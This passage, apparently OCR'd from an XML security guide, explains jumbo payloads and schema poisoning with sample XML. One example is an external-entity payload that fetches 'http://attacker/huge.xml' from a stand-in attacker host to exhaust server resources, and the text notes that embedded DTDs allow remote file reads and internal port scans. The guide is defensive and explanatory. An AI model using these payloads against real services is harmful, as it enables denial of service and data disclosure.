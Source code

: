 ```
    <SOAPENV:ENVELOPE XMLNS:SOAPENV="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/"                       XMLNS:EXT="HTTP://COM/IBM/WAS/WSSAMPLE/SEI/ECHO/B2B/EXTERNAL">
     <SOAPENV:HEADER LARGENAME1="LARGEVALUE"                      LARGENAME2="LARGEVALUE2"
                     LARGENAME3="LARGEVALUE3" …>      ...
```
 
#### \"Small\" Jumbo Payloads 
**The following example is a very small document, but the results of processing this could be similar to those of processing traditional
jumbo payloads.** The purpose of such a small payload is that it allows an attacker to send many documents fast enough to make the application
consume most or all of the available resources: 
```
     <?xml version="1.0"?>
    <!DOCTYPE root [      <!ENTITY file SYSTEM "http://attacker/huge.xml" >
    ]>     <root>&file;</root>
```
 
### Schema Poisoning 
**When an attacker is capable of introducing modifications to a schema, there could be multiple high-risk consequences. In particular, the
effect of these consequences will be more dangerous if the schemas are using [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) (e.g., file
retrieval, denial of service).** An attacker could exploit this type of vulnerability in numerous scenarios, always depending on the location of
the schema. 
#### Local Schema Poisoning 
**Local schema poisoning happens when schemas are available in the same host, whether or not the schemas are embedded in the same XML
document.** 
##### Embedded Schema 
**The most trivial type of schema poisoning takes place when the schema is defined within the same XML document.** Consider the following,
unknowingly vulnerable example provided by the W3C : 
```
     <?xml version="1.0"?>
    <!DOCTYPE note [      <!ELEMENT note (to,from,heading,body)>
     <!ELEMENT to (#PCDATA)>      <!ELEMENT from (#PCDATA)>
     <!ELEMENT heading (#PCDATA)>      <!ELEMENT body (#PCDATA)>
    ]>     <note>
     <to>Tove</to>      <from>Jani</from>
     <heading>Reminder</heading>      <body>Don't forget me this weekend</body>
    </note> 
```
 All restrictions on the note element could be removed or altered,
allowing the sending of any type of data to the server. Furthermore, if the server is processing external entities, the attacker could use the
schema, for example, to read remote files from the server. **This type of schema only serves as a suggestion for sending a document, but it
must contain a way to check the embedded schema integrity to be used safely. Attacks through embedded schemas are commonly used to exploit
external entity expansions. Embedded XML schemas can also assist in port scans of internal hosts or brute force attacks.**
 ##### Incorrect Permissions
 **You can often circumvent the risk of using remotely tampered versions
by processing a local schema.** 
```
     <!DOCTYPE note SYSTEM "note.dtd">
    <note>      <to>Tove</to>
     <from>Jani</from>      <heading>Reminder</heading>
     <body>Don't forget me this weekend</body>     </note>
```
 